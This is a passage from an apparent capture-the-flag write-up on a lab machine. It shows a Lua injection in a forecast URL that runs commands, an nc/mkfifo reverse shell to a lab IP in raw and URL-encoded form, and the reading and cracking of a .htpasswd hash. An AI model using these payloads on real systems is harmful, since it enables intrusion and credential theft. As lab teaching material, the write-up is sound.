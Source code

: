 ```lua
/weather/forecast/?city=list')%20os.execute('id')--
```

The output of which is shown below:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Luanne/img4.png"  style="width: 65%" />
</p>

Alright! Since I had basic command execution, I needed to change the payload to a reverse shell. I attempted to use a few Lua payloads from PayloadAllTheThings, but none of them seemed to work. I changed tactics and created a basic `sh` reverse shell since bash did not exist on the machine:

```bash
'rm /tmp/fa;mkfifo /tmp/fa;cat /tmp/fa|/bin/sh -i 2>&1|nc 10.10.14.82 1234 >/tmp/fa;'
```

I then ensured that it was URL encoded and executed the command via the `forecast` URL:

```lua
/weather/forecast/?city=list')%20os.execute(%27rm+%2ftmp%2ffa%3bmkfifo+%2ftmp%2ffa%3bcat+%2ftmp%2ffa%7c%2fbin%2fsh+-i+2>%261%7cnc+10.10.14.82+1234+>%2ftmp%2ffa%3b%27)--
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Luanne/img5.png"  style="width: 80%" />
</p>

## Lateral Movement using httpd
Now that I had access to the machine, I began by performing some basic enumeration:

<details></details>

The directory that I landed in contained a `.htpasswd` file with the following information:

```bat
$ cat .htpasswd
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

I added the hash to a file in order to crack it. I then ran the file through JohnTheRipper with the Rockyou wordlist which managed to crack the password:
